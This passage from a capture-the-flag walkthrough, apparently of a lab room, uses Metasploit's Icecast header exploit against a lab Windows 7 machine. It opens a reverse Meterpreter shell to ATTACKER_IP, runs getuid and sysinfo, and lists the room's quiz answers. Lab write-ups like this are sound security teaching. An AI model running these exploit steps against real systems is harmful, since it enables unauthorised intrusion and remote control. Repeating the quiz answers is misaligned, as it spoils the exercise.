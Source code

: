 ```console
msf6 exploit(windows/http/icecast_header) > set RHOSTS MACHINE_IP
RHOSTS => MACHINE_IP

msf6 exploit(windows/http/icecast_header) > set LHOST ATTACKER_IP
LHOST => ATTACKER_IP

msf6 exploit(windows/http/icecast_header) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] Sending stage (175686 bytes) to MACHINE_IP
[*] Meterpreter session 1 opened (ATTACKER_IP:4444 -> MACHINE_IP:49223) at 2022-10-26 20:07:42 +0330
```

Done! Now we can move onto privilage escalation.


## Privilage Escalation


Since we now have a _meterpreter_ session going, the term's also the answer for the first question in this section: 

> What's the name of the shell we have now?\
> > meterpreter


We can get the answer to the next question like so:

```console
meterpreter > getuid
Server username: Dark-PC\Dark
```

> What user was running that Icecast process?\
> > Dark

To get some information on the system, we can execute `sysinfo`:

```console
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

We thus have the answer to the third and foutth questions:

> What build of Windows is the system?\
> > 7601

> What is the architecture of the process we're running?\
> > x64
